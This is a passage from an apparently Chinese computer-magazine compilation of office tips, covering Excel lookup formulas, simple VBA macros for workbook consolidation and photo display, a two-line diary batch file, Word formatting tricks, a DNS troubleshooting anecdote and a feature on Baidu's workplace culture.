lookup(lookup_value,lookup_vector,[result_vector])
lookup_vector中的值必须以升序顺序放置：…，-2，-1，0，1，2，…；A-Z；FALSE，TRUE。
如果lookup找不到lookup_value，则它与lookup_vector中小于或等于lookup_value的最大值匹配。

### 三、CHOOSE法

=CHOOSE((B2>185)+(B2>180)+(B2>175)+(B2>170)+(B2>165)+1,"S","M","L","XL","XXL","XXXL")
例如：吕季的身高186，CHOOSE函数的第一个参数index_num为6，函数CHOOSE返回value6。

### 四、VLOOKUP法

利用VLOOKUP函数需要先设置辅助区域（H1：J7单元格区域），再输入公式，采用了VLOOKUP的模糊查找功能。
=VLOOKUP(B2-0.1,$H$2:$J$7,3)
或者=VLOOKUP(B2-0.1,$H$2:$J$7,3,1)
在编辑栏抹黑$H$2:$J$7后按一下F9键，$H$2:$J$7变成{0,165,"S";165,170,"M";170,175,"L";175,180,"XL";180,185,"XXL";185,190,"XXXL"}的数组，按下【Enter】后可以删除辅助区域H1：J7。

### 五、INDIRECT+MATCH组合法

=INDIRECT("F"&8-MATCH(B2,{190,185,180,175,170,165},-1))
此例用到了MATCH函数模糊查找，返回其在目标区域的相对位置，而Indirect函数可以将表示单元格或者区域引用的文本字符串转换成引用，也可以对其他工作表或工作簿引用，用途很大。

Tips:
CHOOSE(index_num, value1, [value2], ...)
如果 index_num 为 1，函数 CHOOSE 返回 value1；如果为 2，函数 CHOOSE 返回 value2，以此类推。

转瞬间，全校所有男教师的衣服尺码出现在梅主任面前，梅主任两眼直盯着数据清单，急得我直跺脚，主任，可要请我啵一顿哟，呵呵。
(文/张明昌)

## 医治Word打开文件的“傻毛病”

在一个工作文件夹下用Word编辑文档，当你要打开另一个文档时，你要么返回到资源管理器中双击Word文档，要么就得用Word的“打开”命令或按钮去开启这个文档。但是，使用“打开”命令或按钮打开文件时，Word使用的默认文件夹通常是“我的文档”文件夹。这样，每次都必须得从“我的文档”上翻到“我的电脑”，然后再到达自己保存文件的那个分区（或移动设备），再逐级找到文件夹，才能找到要打开的文件。一个很平常的简单需求，实现起来却要大费一番周折。从这一点来看，Word似乎很傻，一点也不够人性化。其实，也未必如此，我们完全可以“开导”一下它，让它符合我们每个人的个性需求。
以Word 2003为例，通过必要的个性化配置之后，就可以让Word启动之后，只要点击“打开”便可进入你自己指定的文件夹了。具体方法步骤如下：
第一步：用鼠标单击菜单栏中的“工具”菜单项，并从下拉菜单中单击“选项”命令，程序将会弹出标题为“选项”的对话框。
第二步：在该对话框中，选择“文件位置”标签，同时选择“文件类型”为“文档”的一项，单击“修改”按钮。
第三步：打开“修改位置”对话框，在“查找范围”下拉框中选择文件夹所在的盘符，光标指向您希望将其设置为默认文件夹的Word文档文件夹并单击，在“文件夹名称”中即显示出该文件夹。
第四步：确定之后，我们已经看到，Word的默认文件夹指向了我们自己设定的文件夹。
第五步：最后单击“确定”按钮，完成设置工作。之后，当你点击“打开”按钮或命令开启文档的时候，系统自动会定位到你的工作文件夹了，非常人性化。
(文/金峰)

## 走近百度的企业文化

走进百度搜索框大厦，与支付宝统一的橙色风格不同，百度可以说是自成体系，不拘一格。每个员工都按照自己的喜好来布置办公区，这也正体现了百度自由的企业文化吧。

### 鸡翅文化

2009年毕业就来到百度的韩洋如今是Spider部的实习项目经理。他坦言，刚进入百度时有些不习惯，百度在有些看似重要的方面太随意，但在有些他认为无足轻重的地方又似乎小题大做。
比如，百度对工作时间和员工着装都没有硬性规定。我们知道，百度实行的是“弹性工作制”，参考时间是朝十晚六，但员工可以灵活安排，自由决定上下班时间。员工可以穿着便装甚至短裤拖板出席任何级别的会议，可以上班时间跑到睡眠室睡上一觉，跑到瑜伽室去锻炼，可以打游戏、用MSN聊私事等，都不必顾忌领导。与阿里巴巴强调价值观不同，百度的员工自己来安排一切。
但无规矩不成方圆，百度也有自己内部的规则。比如，很多新人都有过这样的经历，发邮件时会忘记写邮件主题或是忘记粘帖附件。但发送一封没有标题的邮件，这样的错误在百度是非常严重的！因为邮件是百度员工的主要交流方式，这等于浪费大家的时间。新人受到的惩罚会是——请所有收件人吃鸡翅！
据悉，鸡翅也是百度企业文化中特色的文化之一。比如一个工程师的项目受到好评或是奖励，他也会买一大堆鸡翅，以此将喜悦和大家分享。

### 给最自由的空间

虽然工作时间灵活，你千万别以为百度的工作很轻松，员工很懒惰散漫。百度内部沟通部经理陈琦透露，百度是出租车司机非常喜爱的据点，很多的哥夜里在这里趴点，百度的员工是外松内紧，虽然没有人每天盯着你催活，但每个人心里自有一根弦绷着。比如，某些员工可能白天要处理很多杂事或是开会沟通，那么他就要主动利用晚上的时间来集中精力做自己的工作，晚上十点经常能看到百度的很多窗口灯火通明，技术部门的某些员工甚至自备帐篷来加班。
陈琦加入百度已经5个年头，她经常对朋友说，百度最让她觉得舒服的一点就是养人，也就是说只要做好你的工作就够了，不必去想如何表现自己、去操心办公室政治、利益纷争、勾心斗角。
这里的员工大都是李彦宏式的理工科男生风格，比较单纯，说话也很直。大家之间直呼其名，比如李彦宏就叫Robin即可。两个字的叫大名，三个字的直接叫后面的名即可，开会时也不用把最好的位置留给领导，或是担心领导站着你坐着。这听上去挺难，但百度确实一直沿袭了这样的风格。
韩洋也表示，外敌很强大，在对手谷歌公司，有来自世界上最聪明的对手，比如斯坦福，MIT毕业的高材生。我们不会浪费时间纠缠在无用的人际关系上。
不过凡事有利就有弊，陈琦笑言，在这里呆久了会变得很单纯，以后如果离开百度，去了别的企业可能会很难适应。
百度文化给人的整体感觉正如李彦宏其人——务实、内敛、不张扬，没有过多的装饰，质朴不华丽。李彦宏不会像马云、乔布斯那样煽动人心，让人热血沸腾，有些员工甚至抱怨，公司有些太过保守，没有百分百确定的事情一定不会说，不会像有些公司那样提前造势，而很多事情当完全确定时实际已经错过了宣传的最佳时机，但这就恰恰是最真实的百度。

### 小编密报：

百度的待遇不便透露，在同行中当然是有竞争力的。值得一提的是，每个员工每月都有一笔不小的经费，可用来买吃的或和同事们出去玩一次、大撮一顿。所以，经常看到有些员工座位边有个大箱子，里面装满了很多滴好吃的~~
(文/Mandy)

## 多头并举 高效汇总报表

对于很多从事财务统计工作的朋友来说，汇总报表是一项非常繁琐的工作，占用很大的工作时间，特别是月底年底时。以前大家汇总报表往往使用计算器或者使用Excel的公式计算，操作起来比较繁琐，而且稍不留神就容易出错。怎么样才能更高效、准确地汇总财务报表呢？其实利用你手中的Excel的合并计算以及VBA就可以针对多种需求来高效、准确地汇总大量财务统计报表。

## 一、巧用合并计算，汇总报表很简单

为了统计数据，很多单位各个部门、分公司基本是采用统一格式的报表，在这种情况下利用Excel的合并计算功能，就可以非常快捷地实现高效汇总报表的目的。比如某公司财务部要统计2011年10月份各个车间的产量明细情况，具体操作方法如下。

1.  启动Excel2010，新建一个Excel报表文件模板，比如：2011年10月份各个生产车间产量汇总.xls，在此表格的需要合计处输入求和公式SUM，并将此模板文件中的B5135区域予以定义。选择B5135区域，单击“公式”菜单，选择其中的“名称管理器”选项，在弹出的“名称管理器”窗口中，单击“新建”选项，在其中的“新建”对话框的“名称”文本框中输入自定义名称，如“chanliang”。单击“确定”按钮，然后将此文件分发给各个车间统计员。
2.  当各个车间统计员填写完毕后，财务部将收到的各个统计报表，存储在一个文件夹中，全部予以打开。接着打开汇总文件“2011年10月份各个生产车间产量汇总.xls”，选择需要汇总数据的B5135区域，单击“数据”菜单，选择其中的“合并计算”选项，在弹出的“合并计算”窗口中，从“函数”列表框中选择汇总方式，如经常使用的“求和”，在“引用位置”文本框中输入要合并的文件引用信息，如第1车间的报表“F:\2011年10月份各个生产车间产量汇总\1车间.xls!Sheet1!chanliang”。在此信息中，包括要合并文件的路径信息以及工作表名称、定义名称。采用此方法将其他车间的文件引用信息依次填入此表中，最后单击“确定”按钮。这时候就会发现所有各个车间各个工作表中的数据都会自动汇总到此总表中，而且采用了分类汇总方式，需要查看各个车间的明细时，只需要单击左侧的级别按钮即可。

小提示：如果各个车间报送上来的文件需要改动时，这时候就需要使汇总表文件与各个车间报表同步更新，这时候只需要选中“合并计算”窗口中的“创建指向源数据的链接”选项即可。这样当各个车间报表改动时，汇总表也会自动重新计算。

## 二、妙用VBA，多表自动汇总合一

使用合并计算，虽然能够完成汇总工作，但是必须逐一对称，并且这种方式是合并计算，而不是将所有各表数据复制到汇总表中。而有的时候是需要将多种格式相同的工作表内容全部汇总到一个文件中，比如某个公司有多个车间，需要将各个车间产量数据自动汇总到一张表中，怎么办呢？通过简单的VBA就可以完成。

新建一张产量汇总表，比如“总表.xls”，所有的数据都存放在Sheet1工作表中，在其中输入详细具体的列名，然后将此表分发给各个车间进行填写。各个车间填写完毕后，将各自报表重新命名，比如第1车间的表名为“1车间.xls”，只要不与总表名重复即可。

将各个车间发送来的统计报表与总表存储在同一个文件夹中，打开“总表.xls”，单击“开发工具”菜单，单击“插入”选项，从其中的Active X控件列表中选择命令按钮，然后在总表表格的右上角划出一个命令按钮，并单击“属性”选项，将此按钮的Caption标题修改为“汇总报表”。

小提示：如果在Excel2010菜单中没有显示“开发工具”选项，可以执行“文件→选项→自定义功能区”命令，从弹出的“Excel选项”窗口右侧的自定义功能区中选中“开发工具”选项，单击“确定”按钮即可。

接着按ALT+F11组合键，在弹出的VBA编辑窗口中，输入以下代码：

```
Private Sub CommandButton1_Click()
    Dim wb As Workbook, m%, s%
    Range("a3:h65536") = ""
    mypath = ThisWorkbook.Path
    myname = mypath & "*.xls"
    m = 3
    s = Dir(myname)
    Do While s <> "总表.xls"
        Set wb = GetObject(mypath & "\" & s)
        wb.Sheets(1).Range("a3").Resize(wb.Sheets(1).Range("a65536").End(xlUp).Row, 15).Copy Range("a" & m)
        wb.Close False
        m = Range("a65536").End(xlUp).Row + 1
        s = Dir
    Loop
End Sub
```

其中的“a3:h65536”是指除列名外的汇总区域，可以根据表格具体情况进行修改。输入完毕，检查无误后，单击“保存”按钮，关闭此VBA窗口。

以上设置完毕后，单击总表中的“汇总报表”按钮，你就会发现在瞬间各个车间的统计表中的数据都会自动汇总到此总表中，非常快捷方便。使用此种方法更适合大量数据表进行汇总工作，而且相比合并计算操作来说，更加简便易行，这样更便于查看各种明细数据，而且处理起数据来更加方便。而针对不同类型的报表，只需要根据具体情况，修改总表中的相关代码即可。

## 告别空洞的个人年终总结

年关将近，又到了铺天盖地写总结的时候。很多人明明做了不少工作，到写总结时却总是泛善可陈。要么就是千篇一律的流水账。为了济世救人，笔者特将独门秘笈奉献出来，希望能给各位的年终总结增光添彩！

## 说清几件事

所谓“总结”，不仅要总结优点，还要总结缺点。但缺点只可一笔带过，较为恰当的成绩优缺点篇幅比例是10:1，否则把自己批驳得一无是处，还能有饭碗吗？

### 优点

*   我为公司做了什么？完成了什么目标？取得了什么效果？（展现出自己的工作重点）

### 缺点

我在个人成长上得到了什么？通过反思过去，找出问题所在，同时应该拿出解决方案。

### 增加亮点

某种意义上讲，写年终总结和写简历非常相似，都是要凸显重要业绩。

*   寻找一年的核心事件，突出功绩。核心事件可以结合自身岗位或者部门关注的指标及考核内容来谈。此外，上司关注的问题以及在日常工作中自己表现非常出色的事件也可以列出。
*   体现出细节，通过一些重大事件的细节描述，赢得上司的关注和理解，毕竟上司在决策层，有时并不能理解执行层的苦衷。
*   用数据说话，不管是销售人员还是技术人员，都会涉及到一些数据，但空洞的罗列数据总是枯燥的。详实的数据和图表对比分析能给上司留下深刻印象。因此，个案、数据、图示、类比等工具和方法的运用是写好年终总结的“铁律”。要知道领导都很忙，根本不可能一字一句细看你的总结。只要在字里行间多给出一些数据或量化的数字、对比图、文字说明做论据，他们就能在文中一眼找到这些关键点。然后对你的整体业绩给出较高评分，这对于需要用PPT演示年终总结的员工尤为重要。

### 业绩平平怎么办

相信业绩一般的员工在企业中占大多数。如果无法列出出彩的数据，如何让自己在公司的地位有所提升呢？

*   用项目和活动来显示。比如，从事销售或公关工作，可以把一年中几次成功的销售策略或代表性的公关活动作为报告的核心内容。一方面突出策划能力，一方面突出每次活动后的战果。比如，以“通过某某促销活动，产品当月提前完成业绩指标”突出几次优秀的阶段性业绩，来掩盖全年业绩不佳的事实。这样，老板也会扭转不佳的印象，此方法可普遍适用于市场部、公关部、人力资源部、财务部、开发部等职能部门。
*   罗列重点工作内容和成本控制。较适合行政后勤等琐碎的工作。比如，对比往年的项目数据，列明通过执行哪些方法，使得公司日常费用开支、日常办公设备的维护支出有不同程度下降，日常工作流程的效率也得到了提升等。这样一定会让老板满意。

### 范文

转眼又到了寒冬腊月，一年悄然而逝。回顾过去一年的工作，我的感触很多。2011年我的工作不能说是完美，但在这一年里，我真正地找到了自己的位置以及自己前进的方向。我可以自豪地说：我努力了！我在不断进步，也为公司创造了很多的业绩，为公司的发展做出了自己应有的贡献。我知道这不仅是我个人努力得来的结果，也是在领导和同事的帮助下完成的。现将一年来的工作情况总结如下：

工作质量：工作罗列、突出重点。通过这半年的锻炼，我现在可以圆满地完成工作任务。严格遵守公司的规章制度、规范和流程，对客户的意见和建议也能够很好地考虑和分析。设计的作品质量也比去年有所提高。（举例！）

沟通能力：我虚心接受领导在工作上的指导和意见建议，及时与领导沟通；有问题及时向同事请教，积极听取他们的意见和建议；积极和用户进行沟通，及时了解他们的需求，根据他们的要求修改自己的设计作品。（举例！）

当然，工作中有时也存在问题（举例）。相信在以后的工作中我会弥补这些不足，努力提高业务技能，完善我的工作，为公司的发展尽自己的绵薄之力！ （需要注意的是，文中避免空话，尽量以实例说话。）

## 晒晒你的年终总结

关于年终总结，你有怎样的心得和体会？是否愿意晒晒你的年终总结？欢迎发信至z@cfan.com.cn。 （来源/东方早报）

## 打造一个简单方便的日记本

写日记，人们都总要在开始或落款处标上日期和星期几的信息，以便日后识别。用电脑写日记也不例外，用电脑写日记，最随意的方法莫过于使用系统自带的记事本了，但是，用记事本写日记，每次输入日期和星期信息也挺麻烦，总得要先琢磨一下，然后再输入。如果每次打开记事本，日期和星期信息已经自动为你输入好了，直接写内容即可，那该多方便啊。我们可以按下面的方法，来打造一个自动追加日期星期信息，并保留先前所写日记信息的日记本。

第一步：先用记事本设计一个只有两行代码的简单小程序。打开记事本，输入如下两行命令（如图1）：

```
date /t >> D:\我的日记.TXT
notepad D:\我的日记.TXT
```

注意：第一个命令行中有两个半角空格，date后和/t参数后各一个；>>为两个半角大于号；/t参数的斜杠和D:后面的反斜杠均为半角符号。以上细节一个也不能弄错，否则命令将不能运行出正确结果。本例我们假设日记文件保存为D:盘的根目录的“我的日记.TXT”，具体保存地点可根据自己的情况而改变。将以上程序文件存盘为“写日记.BAT”，保存在D:盘的根目录（具体保存地点根据自己的情况自定，本例我们假设为在D:盘）。

第二步：右击刚才生成的程序文件“写日记.BAT”，发送一个快捷方式到桌面上，以后我们就通过这个快捷方式来启动“我的日记”来写日记了。

第三步：第一次双击桌面上的“写日记”快捷方式，自动进入写日记界面，这时，你会发现在日记的开始已经自动加上了当前日期和星期信息（如图2）。

第四步：其后每次双击桌面上的“写日记”快捷方式，你会发现，在自动打开的日记本文件中的末端，自动追加了当前日期和星期信息，你立马可以直接写日记内容，而在它的前面，保留有先前写的所有日记（如图3）。

(文/汪洋)

## 我的记录能显示照片信息

暑期单位又聘用了很多新同事，为了能尽快地熟悉各位员工的情况，领导让我在职工数据表中增加显示照片的功能，即选中某个员工的记录就可以浏览到该员工的照片。

很多朋友可能会想到用单元格的“批注”功能来实现，即在单元格中插入批注，然后再设置批注的格式，再设置图片填充效果就可以了，但在人数比较多的情况下非常烦琐而且还容易出错，还是看看下面的这个宏吧。

首先利用“控件工具箱”中的“图像”工具在数据表中的合适位置绘制一个名为“Image1”的图片对象，调整其大小跟照片的大小相同（如图1）。

### 干部花名册

| 出生年月 | 工作时间 | 学历 | 职称 | 人员性质 | 照片 |
|----------|----------|------|------|----------|------|
| 197104   | 199008   | 中专 | 中一 | 合同制工人 |      |
| 196501   | 198704   | 高中 | 小高 | 合同制工人 |      |
| 196410   | 198008   | 专科 | 会计师 | 全民固定工 |      |
| 196811   | 198808   | 专科 | 中一 | 合同制工人 |      |
| 196807   | 198808   | 高中 | 中高 | 合同制工人 |      |
| 196712   | 198608   | 专科 | 幼高 | 合同制工人 |      |
| 196901   | 198808   | 专科 | 幼一 | 合同制工人 |      |
| 196808   | 198808   | 专科 | 小高 | 合同制工人 |      |

在当前工作表的“SelectionChange”事件中写入如图2所示的代码。

代码中调用的照片名“photoname”为该行第2列中的员工的名字，所以事先对照片命名时要使用员工的名字来命名。测试时只需将鼠标在任意员工所在的行单击，就可以在“Image1”的图像框中看到相应的照片信息了（为了Image1始终能显示，可以将前几行记录冻结）。另外本例也可以用弹出的窗体来显示员工的照片，实现的方法与此类似，各位读者朋友可自行尝试。

(文/仲勇)

```
Private Sub Worksheet_SelectionChange(ByVal Target As Range)
    On Error GoTo err
    photopath = ActiveWorkbook.Path
    photoname = Cells(Target.Row, 2)
    '显示工作簿所在目录下的photo文件夹中的照片
    Image1.Picture = LoadPicture(photopath & "\" & "photo\" & photoname & ".gif")
    Exit Sub
err:
    '显示nophoto.gif图片(即"暂无图片"的提示)
    Image1.Picture = LoadPicture(photopath & "\" & "photo\" & "nophoto.gif")
End Sub
```

## 能聊天不能上网 找DNS服务器算账

学校里面女生多男生少，这让我们男生享尽优待，哈哈，同时也给我们带来一些挑战。这些漂亮的电脑白痴们经常捣鼓出各种电脑问题，然后让我们去帮忙，让我们又爱又恨。上午一个MM又给我打电话，她的问题是电脑连上网络后只能登陆QQ，不能打开网页。

下午三点，杀奔女生宿舍（经常进来的，淡定……）。根据经验再加上她说的情况，我觉得问题应该是网络的DNS服务器配置出错造成的不能解析网站的域名。

用快捷键WIN+R调出运行对话框，输入cmd（图1），打开DOS命令行界面。先执行一个ping命令，看看网络连接情况，选择熟悉的百度，输入ping www.baidu.com（图2），回车。很快就返回了数据，没有丢包现象，证明网络连接正常。把解析出来的IP地址输入浏览器地址栏，可以打开页面。看来我的推断没错。

MM看到后两眼放光，高喊太棒了！重新打开浏览器，还是显示不能打开页面（这是肯定的）。MM表情马上晴转多云。我强忍住笑，继续工作。

从开始菜单里打开“控制面板→网络连接→本地连接→TCP/IP协议→属性”，IP地址和DNS服务器都是默认的自动获得（图3）。

把DNS服务器选项改为使用固定的地址，输入从当地运营商那里得到的DNS服务器地址，点击“确定”。

重新连接网络，打开浏览器，一切正常。MM不放心地试了好几遍，终于向我投来等了很久的赞许目光，话说里面还有点别的成分，狂喜啊……

(文/雷光辉)

## 规范选择题选项 我有妙招

笔者近期负责统稿某校计算机校本教材的编写工作，全书约19万字，378页，每一章节附有巩固练习题。教师交上来的文档格式不符合规范，如何快速整理成规范格式，成了问题。

如图1所示的某教师交上来的原始文档存在的主要问题：用空格对齐选项；西文字符全角与半角杂糅在一起；中文与西文字体没有统一；试题序号与选项后的标点符号没有区分等等。那如何高效地规范选择题选项呢？这里以Word 2003、纸张大小B5、纸张方向横向为例说明，请看下面的方法。

1.  “Pentium II /350”和“Pentium III 450”中的“350”和“450”的含义是( )。
    A. 最大内存容量
    B. CPU的时钟频率
    C. 最大运算精度
    D. 最大运算速度。
2.  一张1.44MB的软盘上，最多可存放的汉字数大约是( )。
    A. 120万
    B. 80万
    C. 70万
    D. 60万
3.  微型计算机使用的键盘中，Shift键是( )。
    A. 空格键
    B. 回车键
    C. 退格键
    D. 换档键
4.  下列存储器中，断电后信息将会丢失的是( )。
    A. ROM
    B. CD-ROM
    C. 磁盘存储器
    D. RAM。
5.  计算机中最小的数据单位是( )。
    A. 字
    B. 位
    C. 字节
    D. 字长。

## 一、准备工作

1.  西文字符统一为半角。按下“Ctrl+A”组合键全选此文档，单击“格式→更改大小写(E)…”命令，弹出更改大小写对话框，选择“半角(W)”单选框。
2.  统一文档的中西文字体。全选此文档，单击“格式→字体(F)…”命令，弹出字体对话框，切换到“字体(N)”选项卡，选择中文字体(T)为“宋体”，西文字体(F)为“Time New Roman”（如图2）。
3.  将所有的白色空格删除。全选此文档，按下“Ctrl+H”组合键，打开“查找和替换”对话框，单击“高级”按钮，不要勾选“使用通配符”。在“查找内容(N)”右边的下拉框输入“^w”，“替换为(I)”右边的下拉框为空（什么也不输入），单击“全部替换”按钮即可（如图3）。

## 二、扩大括号的长度范围

经过准备工作的步骤之后，长短不一的括号统一变为“()”，如何扩大其长度范围，成为“(   )”，依然要用到“查找和替换”的功能。在“查找内容(N)”右边的下拉框输入“()”，替换为(I)右边的下拉框输入“(   )”，单击“全部替换”按钮即可。

## 三、设置制表符对齐选项

全选此文档，按下“Ctrl+H”组合键，打开“查找和替换”对话框，单击“高级”按钮，勾选“使用通配符”。在“查找内容(N)”的下拉框输入“[A-D]?”，替换为(I)右边的下拉框输入“^t^&”，然后单击下方的“格式”按钮，选择“制表位(T)…”命令，弹出“替换制表符”对话框（如图4）。在“制表位位置(T)”下方的文本框输入“1”，对齐方式和前导符保持默认，单击“设置”按钮后，再单击“确定”按钮。返回“查找和替换”对话框。再依次单击“格式”按钮，选择“制表位(T)…”命令，分别输入“14”、“27”、“40”后返回“查找和替换”对话框（如图5）。单击“全部替换(A)”按钮，此时基本上做到了选项对齐，不过个别的可能需要做一下调整。

以上步骤的原理是：查找A?B?C?D?选项这四部分的内容，并在它们的前面分别添加制表符，通过设置的制表符做到选项对齐。

## 四、区分题目序号与选项后的标点符号

打开“查找和替换”对话框，勾选“使用通配符”。在“查找内容(N)”右边的下拉框输入“[0-9]{1,}.”，替换为(I)右边的下拉框输入“\1. ”，单击“全部替换”按钮（如图6）。

最后设置行距，一份排版较为规范、专业的效果出现在我们面前，你学会了吗？

（文/张明昌）

## 让工资显示自动出‘彩’

在Excel工作表中有“月工资”一栏，需要小于5000元的显示为绿色，大于5000的显示为红色，该怎么办？

我们可以通过如下办法进行设置：选中需要进行彩色设置的单元格区域，执行“格式”菜单中的“单元格”命令，在弹出的对话框中单击“数字”选项卡，然后选择“分类”列表中的“自定义”选项，在“类型”框中输入“[绿色][<5000];[红色][>=5000]”，最后单击“确定”按钮即可（如图所示）。

在实际生活中，我们在使用Excel处理数据时，经常需要将某些数据以特殊的形式显示出来，这样可以使浏览者一目了然。在这种情况下，使用最多的是给单元格内容设置颜色显示，但这种设置往往是在单元格中有了内容之后手动进行的，如果在数值还不确定的情况下需要未来的表格数值显示相应的颜色，那么以上方法就可以派上用场了。

> 小提示：除了“红色”、“绿色”外，用户还可以使用六种颜色，它们分别是“黑色”、“青色”、“蓝色”、“洋红”、“白色”和“黄色”。另外，“[>=120]”是条件设置，用户可用的条件运算符有：“>”、“<”、“>=”、“<=”、“=”、“<>”。当有多个条件设置时，各条件设置以分号“；”作为间隔。注意以上用到的“大于”、“小于”、“等于”、“中括号”以及“分号”等符号均为半角英文字符，写错一个就通不过了。

（文/樱子）

## 员工问卷调查 教你轻松搞定

现在的办公族，工作压力普遍较大，由此可能产生的各种心理问题不容忽视。为了及时了解员工们的心理状态，公司决定对所有员工进行一次心理学问卷调查，以便于及时发现并设法解决各种心理问题。通过传统的纸质问卷调查方法，不仅需要进行问卷打印、分发、回收等一系列的繁琐操作，手工汇总问卷调查结果更是费时费力。专业的考试系统软件，要么价格让人望而生畏，要么需要安装配置专门的考试服务器软件。有一些在线调查网站，虽然提供了免费的问卷调查功能，但由于害怕泄露员工的个人隐私，也只好作罢。偶然翻看以前的一期《电脑爱好者》杂志，其中有一篇介绍考试系统制作方法的文章，只要使用PowerPoint软件并结合VBA脚本代码就可以实现，让我深受启发，进而发现一种主要使用Excel软件，就可以轻松搞定员工问卷调查的方法，希望能给有类似需要的朋友提供一点借鉴。

### 第一步：生成问卷题库

这里以Excel 2007为例，首先新建一个员工心理健康问卷调查的题库，将我们搜集整理的单选题、多选题、判断题等标准化试题，分类按序添加进去。根据问卷调查的要求，需要设置不同的试卷类型，例如A卷、B卷等。为了便于调整题目与选项的位置和顺序，需要将题号、题目和选项内容分别放置在不同的单元格中，并将所有题目的参考答案放在对应题目的后面。对于判断题，为了后面统计结果，可以用A表示正确，用B表示错误。

由于很多试题和选项的文字内容较多，为了便于阅读试题，需要适当调整各列内容的宽度和各行内容的高度。单击工作表最左上角的“全选”按钮，选定所有单元格，右击执行“设置单元格格式→对齐→文本控制”命令，勾选“自动换行”项，单击“确定”按钮，就可以让文字较多的单元格自动换行。

### 第二步：编制调查问卷

新建一个“编制问卷”工作表，在上方设置问卷的标题信息，其中员工证号和姓名由参加问卷调查的人自己输入，而问卷类型则由调查者设置。为了不让员工随意修改问卷类型，需要先在该单元格中输入“A卷”，然后选定该单元格，执行“数据→数据有效性”命令，在“设置→有效性条件”的“允许”列表中选择“自定义”项，在“出错警告”标签下还可以设置相应的出错提示。单击“确定”按钮，就可以设置数据区域的有效性条件为“A卷”，一旦员工试图修改，系统就会弹出对应的警示框而拒绝修改。

由于每道题目的文字长度不尽相同，为了便于答题，这里将最左边的A列单元格作为答题选择区域。同样需要执行“数据→数据有效性”命令，在“设置→有效性条件”的“允许”列表中选择“序列”项，在“来源”文本框中输入“A,B,C,D”，并勾选“提供下拉箭头”项，让员工答题时只能在A、B、C、D四个选项中进行选择。对于多选题，则需要输入全部可能的选项组合“AB,AC,AD,BC,BD,CD,ABC,ABD,ACD,BCD,ABCD”，以便于员工进行选择。

分别设置单选题、多选题和判断题的题号分值信息，然后在B列单元格中输入题目序号，在C7单元格中输入字符串连接函数“=CONCATENATE(生成题库!O2," ",生成题库!D2," ",生成题库!E2," ",生成题库!F2," ",生成题库!G2)”。从“设置题库”工作表中提取调查问卷的题目内容，为了便于阅读试题，可在题目和选项之间添加一个醒目的分隔符号。此外，我们还可以通过适当增加行高、设置颜色底纹或加粗字体等方法来改善问卷阅读效果，将该工作表的全部内容复制粘贴到一个新的工作表中（注意要用“选择性粘贴→数值”，去掉所有的公式引用），将其保存为“心理学问卷调查A卷.xls”文件，即可生成A卷。选择不同的题目或适当调整选项顺序，很容易生成不同类型的试卷。

### 第三步：分发回收问卷

通过各种网络软件，将不同类型的调查问卷分发给所有需要参加测试的员工，让他们在规定的时间内完成调查测试，并将对应的Excel文件以自己的姓名重命名，再发送到指定的邮箱或局域网服务器。为了方便统计问卷调查结果，需要将文件重新序列命名。这里以“眼睛文件工具”（下载地址：http://www.onlinedown.net/soft/47723.htm），来批量修改文件名。

首先，打开一个记事本窗口，依次输入F01、F02……等序列编号，执行“文件→另存为”命令，将其保存为一个扩展名为txt的纯文本文件。接下来，运行“眼睛文件工具”，在“选择目录”处选择要更名文件所在的文件夹，在“选择文件”框中会显示该文件夹下的所有文件。选定要更名的文件，单击中间的“添加”按钮，即可将它们添加到右侧上方的文件列表中。如果希望保留未更名的原始文件，则需要勾选中间的“备份”项。

最后，打开“列表替换”标签，单击左侧的“添加”按钮，在“原串”列表中添加右上方的文件名列表（即原文件名），再单击其右侧的“导入”按钮，在“新串”列表中导入前面保存为文本的文件，最后单击下方的“执行”按钮，很快就可完成上述文件的更名操作，并显示在右上方的文件列表中。

### 第四步：数据汇总统计

确认所有参加本次问卷调查的员工问卷全部重命名之后，再将它们全部复制到指定的文件夹下（例如“D:\testdata”）进行问卷结果汇总操作。设计一个问卷情况汇总表，将A卷、B卷的参考答案放置在左边，然后在D4单元格中输入表间数据引用公式“='D:\testdata\[F01.xls]试卷'!A7”，按回车键就可以提取存放在D盘testdata文件夹下，名称为F01.xls问卷中的A7单元格中的数据，将鼠标指针指向D4单元格的右下角，当光标变成“＋”形状时，按住左键向下拖动进行公式的复制。稍作修改，就可以将名称为“F01.xls”调查问卷中的有效数据全部提取到汇总表当中。使用相同的方法，很快就可以提取其他问卷中的有效数据。

对于汇总之后的问卷调查结果，我们既可以使用条件计数函数COUNTIF，统计出所有员工每一道题的选择情况，例如，在AJ4单元格中输入函数“=COUNTIF(D4:AG4,"A")”，单击回车键，就可以统计出第一题选择A选项的人数。有了这些汇总数据，我们很容易计算出每一题的正答率。我们也可以使用条件判断函数IF，判断每一道题的得分情况，例如在D42单元格中输入函数“=IF($B4=D4,3,0)”，就可以对该题进行判分，选择正确得3分，错误得0分。将该函数向下复制引用，可以对编号为F01问卷中的所有题目进行判分，将每一题的得分情况汇总起来，就得到一位员工的问卷调查总得分。

新建一个“成绩统计”工作表，在C4单元格中输入函数“='D:\testdata\[F01.xls]试卷'!$D$3”，可以提取F01.xls文件中的员工证号，其中“$D$3”表示绝对引用，将该公式向下拖动复制并修改对应的文件序列名称，可以提取其他的员工证号。员工姓名的提取方法与之类似，在E4单元中输入函数“=批阅试卷!D72”，就可以将“批阅试卷”工作表中的问卷得分引用到“成绩统计”工作表中对应的数据单元格，将该公式向下复制引用到其他单元格，就可以完成本次考试的成绩统计工作。

如果参加问卷调查的员工人数较多，超过了我们设置的文件数量范围，则可以分批进行问卷调查结果的汇总统计工作，先将第一批员工的问卷调查文件进行重命名，数据汇总和判分等操作，将“成绩统计”工作表中的结果复制并选择性粘贴到另外一个工作表中，然后再将第二批文件进行重命名操作，数据汇总和成绩统计工作也会自动完成。这就是让员工在调查问卷中输入自己的员工证号和姓名的原因，各个工作表中的汇总统计数据会随着问卷调查内容的变化而自动变化，这就是使用Excel数据引用的一个优点。

（江苏/远渡重洋）

## 让常用任务入驻Word菜单

Word菜单中的一些命令使用起来非常方便，如果我们能把办公过程中常用到的一些实用操作也添加到一个自定义的菜单中，调用起来就方便多了。比如删除文档中的超级链接这样一个任务，如果一个个地删掉超链接太麻烦，这时我们可以做一个Word自定义菜单。具体做法如下：

### 建立自定义菜单

第一步：打开Word，点击“工具→宏→Visual Basic编辑器”，在打开的窗口中，在左边展开“Normal”，再展开“模块”，然后双击“NewMacros”，在右边空白处粘贴如图1所示代码，然后关闭该窗口。

